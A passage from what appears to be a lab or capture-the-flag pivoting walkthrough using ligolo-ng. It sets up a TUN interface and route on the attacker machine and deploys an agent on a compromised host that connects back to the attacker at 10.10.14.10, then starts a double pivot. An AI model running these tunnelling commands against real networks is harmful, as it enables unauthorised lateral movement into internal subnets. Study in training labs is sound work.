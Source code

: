 Now you will have access to this subnet. Here is what the current set up looks like.



Using this tunnel I can access the 172.16.1.14 machine. This machine has access to the 172.16.5.0/24 network. Lets use ligolo-ng to set up a tunnel for this.

Ligolo-ng
To use this program we need to set up a few things on the attackers machine in our instance its the 10.10.14.10 machine, these are as follows

# This will create a new TUN interface
sudo ip tuntap add user [your_username] mode tun ligolo
# This will set the link on yhe nee interface to up
sudo ip link set ligolo up
# This will add a route to the new tunnel.
# NOTE this is where you insert the new subnet you want to access.
sudo ip route add 172.16.5.0/24 dev ligolo
Next we just run the ./proxy script to run the proxy on our attacking machine. Please note for this I am using no encryption.

./proxy -selfcert

Now using access on the 172.16.1.14 I will deploy the agent

./agent -connect 10.10.14.10:11601 -ignorecert

Now switching back to the proxy server we can see the agent has established connection.

INFO[0102] Agent joined. name=WS-01 remote="172.16.1.14:38000"
On the proxy we now can select the session we want to interact with and then start the tunnel

ligolo-ng » session 
? Specify a session : 1 - WS-01 - 172.16.1.14:38000
# Next simply type start to start using the tunnel
[Agent : WS-01] » start
[Agent : WS-01] » INFO[0690] Starting tunnel to WS-01
Now we have access to the 172.16.5.0/24 subnet and our set up looks like this.



This is all fun and games but it seems the host 172.16.5.25 is only reachable via the 172.16.5.20 machine. In this set up we cannot hit the machine. Double pivot anyone??

Double pivot


In order for ligolo to know how to access this host we need to place a second agent on the .20 machine, doing this will allow the tunnel to see and know how to route traffic to the .25 machine. After starting the agent on the .20 with the same commands as above you will see the agent establish connection in the proxy server
